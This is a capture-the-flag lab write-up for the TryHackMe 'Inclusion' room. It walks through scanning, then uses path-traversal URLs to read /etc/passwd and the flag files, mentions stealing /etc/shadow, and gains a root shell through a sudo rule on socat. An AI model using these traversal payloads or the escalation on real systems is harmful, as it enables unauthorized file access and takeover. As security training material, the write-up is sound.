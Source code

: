 # Inclusion

TryHackMe room: <https://tryhackme.com/room/inclusion>

A beginner level LFI challenge.

![alt text](files/writeup-header.png "Writeup Image")

**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration](#enumeration)
- [Looking on the webserver](#looking-on-the-webserver)
- [Grabbing user.txt and root.txt flags](#grabbing-usertxt-and-roottxt-flags)
- [Extra bits](#extra-bits)

## Setup

```commandline
$ export IP_TARGET=10.10.208.207
$ export WRITEUP="$HOME/Documents/THM/inclusion/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

- nmap
- gobuster

## Enumeration

Started a `nmap` scan:

````commandline
# nmap -sCV -A $IP_TARGET 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 15:16 CEST
Nmap scan report for 10.10.208.207
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/18%OT=22%CT=1%CU=38644%PV=Y%DS=2%DC=T%G=Y%TM=6145E6C
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   28.07 ms 10.8.0.1
2   28.47 ms 10.10.208.207

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.99 seconds
````

Enumerating the web server did not reveal anything actualy.

````commandline
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP_TARGET
````

## Looking on the webserver

The website looks like to be a blog style. Nothing fancy but clean. Front page, pointing to 3 different articles.

![alt text](files/website_01.png "website")

When clicking onto an article, load up something's like a plain text page. Which could give us the big hint that this website is loading up a real text file from the system. In other words, pointing to a file.

Interesting to see, is of course the content of these page, as they contain valuable information and with a "Taken from ...". I have put the links below.

![alt text](files/website_02.png "website")

- Hacking this world - <https://www.guru99.com/what-is-hacking-an-introduction.html>
- LFI-attack - <https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/>
- RFI-attack - <https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/>

But the real interesting part here in the hacking process is the URL itself. <http://10.10.208.207/article?name=hacking>. The article named `hacking` is a real (text) file on the system and not a reference to something in some kind or database. Knowing this, we know the system is subject to the `LFI (Local File Inclusion)` vulnerability. Instead of using the article's file name that the different links on the website provide us, we can put the path of a file name present on the system.

## Grabbing user.txt and root.txt flags

We know there is an `LFI (Local File Inclusion)` vulnerability with this system, and to make use of this, it is a bit of trial and error to get the content of the file we want. If we use the wrong path, we will get an HTTP status of 500 (Internal Server Error). So, we know we need to try again.

![alt text](files/website_500_error.png "website")

Going to: <http://10.10.208.207/article?name=../../../etc/passwd> reveals us the content of the `/etc/passwd` file of that system, thus all the available usernames on this system.

![alt text](files/website_03.png "website")

However, it is better to look at the source view of this page, as the source view will keep a better formatting style. This is especially crucial for readability, but also for copy & paste tricks without the need to reformat too much. For example if we want to copy the user's `ssh` `id_rsa` file. However, In this situation, this use does not have a `.ssh` folder in his home directory. 

![alt text](files/website_04.png "website")

Knowing the username, we can actually grab the `user.txt` file (the ctf flag) by browsing to <http://10.10.208.207/article?name=../../../home/falconfeast/user.txt>

    60*****511839*****99

In this case, we can also grab the `root.txt` flag the same way: <http://10.10.208.207/article?name=../../../root/root.txt>

    42*****484549*****09

But actually, in this situation, the password of the `falconfeast` user is even commented out in the `/etc/passwd` file. Logging in with ssh for this username and password works.

## Extra bits

We could eventually also grab the `/etc/shadow` file with the same method as described before, to get the hashes of the `root` user and the `falconfeast` user and try to crack it. But this is absolutely not needed to finish this CTF room. And there are more easy ways.

We can log in with user `falconfeast` over `ssh` and use the password indicated in plaintext in the `/etc/password` file.

Once logged in with that user, we can do some easy vertical privilege escalation by making use of `sudo`. As this user seems to be able to run `socat` with `root` privileges.

````commandline
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
````

Looking up on [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo) about a method to escalated by using `socat` and we obtain root privileges.

````commandline
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh

whoami
root
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
